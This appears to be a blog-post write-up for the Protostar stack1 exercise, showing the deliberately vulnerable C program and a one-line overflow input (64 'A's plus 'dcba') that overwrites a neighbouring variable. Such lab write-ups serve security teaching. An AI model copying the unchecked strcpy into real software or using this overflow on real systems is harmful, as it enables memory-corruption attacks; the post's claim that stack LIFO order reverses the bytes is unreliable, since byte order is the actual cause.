 ```yaml
---
layout: post
title: "Protostar stack01 writeup"
tags: [protostar, pwn]
comments: false
---
```


For this challenge, we are given up with a sourcecode.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

It seems similiar to stack00 but this time we actually need to modify the value of the modified variable to a specific value which is 0x61626364 and if we change these numbers to ASCII it will be 'abcd' but because of how stack works (LIFO)
 we need put them in backward which will be 'dcba' and the same number of A as stack 00 which will be 64

 ```
 root@protostar:/opt/protostar/bin# ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
 ```

